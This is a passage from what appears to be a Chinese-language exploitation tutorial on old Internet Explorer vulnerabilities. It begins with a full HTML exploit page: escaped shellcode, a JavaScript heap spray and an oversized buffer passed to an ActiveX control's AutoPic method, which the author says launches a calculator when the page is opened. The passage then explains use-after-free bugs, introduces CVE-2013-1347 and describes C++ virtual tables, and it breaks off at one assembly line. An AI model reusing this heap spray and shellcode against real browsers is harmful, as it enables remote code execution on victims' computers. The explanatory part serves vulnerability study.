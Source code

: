 

```
&lt;html&gt;
&lt;script &gt;
var shellcode = unescape(
 '%uc931%ue983%ud9de%ud9ee%u2474%u5bf4%u7381%u3d13%u5e46%u8395'+
 '%ufceb%uf4e2%uaec1%u951a%u463d%ud0d5%ucd01%u9022%u4745%u1eb1'+
 '%u5e72%ucad5%u471d%udcb5%u72b6%u94d5%u77d3%u0c9e%uc291%ue19e'+
 '%u873a%u9894%u843c%u61b5%u1206%u917a%ua348%ucad5%u4719%uf3b5'+
 '%u4ab6%u1e15%u5a62%u7e5f%u5ab6%u94d5%ucfd6%ub102%u8539%u556f'+
 '%ucd59%ua51e%u86b8%u9926%u06b6%u1e52%u5a4d%u1ef3%u4e55%u9cb5'+
 '%uc6b6%u95ee%u463d%ufdd5%u1901%u636f%u105d%u6dd7%u86be%uc525'+
 '%u3855%u7786%u2e4e%u6bc6%u48b7%u6a09%u25da%uf93f%u465e%u955e');
var bigblock = unescape('%u9090%u9090');
var headersize = 20;
var slackspace = headersize + shellcode.length;
while (bigblock.length &lt; slackspace) bigblock += bigblock;
var fillblock = bigblock.substring(0,slackspace);
var block = bigblock.substring(0,bigblock.length - slackspace);
while (block.length + slackspace &lt; 0x40000) block = block + block + fillblock;
var memory = new Array();
for (i = 0; i &lt; 500; i++)`{` memory[i] = block + shellcode `}`
&lt;/script&gt;
&lt;script&gt;
(1);
&lt;/script&gt;
 &lt;object classid="clsid:128D0E38-1FF4-47C3-B0F7-0BAF90F568BF" id="target"&gt;&lt;/object&gt;
 &lt;script&gt;
 var buffer = '';
 while (buffer.length &lt; 1111) buffer+= "x0c";
 target.AutoPic(buffer,"defaultV");
 &lt;/script&gt;
&lt;/html&gt;
```



保存内容,打开网页 ,就可弹出一个计算器, 干净利落.

上面那种类型的漏洞流行于 03年-08年, 由于缓冲区溢出类的漏洞挖掘较为容易 , 所以没过多久,这一类型的漏洞就被 hacker 们挖的差不多了, 于是 hacker 们又纷纷转向 堆相关漏洞的挖掘 , 于是 08年之后释放重利用这种堆相关漏洞利用方式变成了IE漏洞的主流.逐渐在这几年达到了高峰.对象畸形操作类的漏洞一般来说触发漏洞需要一系列的操作.单个的操作，比方说对象的创建使用删除都是正常的。导致问题的是对于对象操作的畸形的组合.比如一个对象释放后 引用计数没有清0 , 导致我们可以使用已经释放的内存,又比如 我们新建对象时 ,申请到了一块为初始化的内存 等等 这些都会造成一些安全问题, 甚至可能导致 远程代码执行.

话不多说,直接开干. 这里用的漏洞是 CVE-2013-1347-Microsoft IE  UAF漏洞.测试环境为 win7 32 , mshtml.dll 的文件版本 为 : 8.00.7601.17514.  漏洞的原理 : CGnericElement在被释放后 ,我们仍然可以使用 它的那块内存, 而当我们调用对象的函数时就有可能引用非法内存的值作为 函数指针, 最后造成远程代码执行漏洞. 这里在介绍一个背景知识 , 跟面向过程的编程语言不同，c++支持多态和继承。支持这些机制的核心就是虚表。C++的(虚)函数指针位于一个全局数组中，形成虚表。而指向这个虚表的指针(VSTR)一般位于对象实例在内存中开始的4个字节(32位系统) 之后才是类中声明的数据成员，一般按照声明的先后顺序排列。对于存在多态行为的类，子类的所有实例共享相同的虚表，但区别于父类的虚表。对于某个对象，其 调用存在多态行为的某个函数时，会先通过虚表指针得到虚表.再根据函数在虚表中的偏移来得到相应的函数指针，最后才会调用函数.    最后总结一下:  一个对象创建后 ,会在内存中占用一定的空间, 如果对象有虚函数调用的话(ie 中的对象基本都有 ) ,其内存块开头的 4 字节 会指向一个 叫做 虚表的东西 , 当 对象调用虚函数时 首先会 取出 虚表指针 (即 开头的 4字节) ,再到 虚表处根据所调用函数对虚表的相对偏移找到函数指针 , 最终 跳到 函数指针处执行 .

其 汇编代码的 大致呈现 为 &lt;假定 ecx 指向对象&gt;:

mov eax , [ecx]
